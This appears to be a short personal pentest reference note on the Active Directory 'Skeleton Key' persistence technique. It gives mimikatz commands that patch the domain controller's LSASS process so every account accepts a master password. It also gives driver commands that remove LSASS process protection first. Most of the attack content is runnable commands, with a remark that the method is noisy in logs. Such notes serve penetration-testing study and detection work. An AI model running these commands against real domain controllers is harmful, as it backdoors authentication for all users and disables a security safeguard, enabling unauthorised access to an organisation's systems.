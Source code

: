 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz 
- Persistence technique where it is possible to path the DC's `lssass` process so that it allows access as any user with a single password.
- Discovered by Dell Secureworks.
- Using mimikatz to inject skeleton key
```powershell
privilege::debug # 200 OK
misc::skeleton
# Any resource can be accessed by it's username and password as "mimikatz"
```
- In case the lssass.exe process in running as a protected process, we need to use the mimidriv.sys (mimikatz driver) to use skeleton key:
```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
# NOTE: The above process is noisy in logs
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
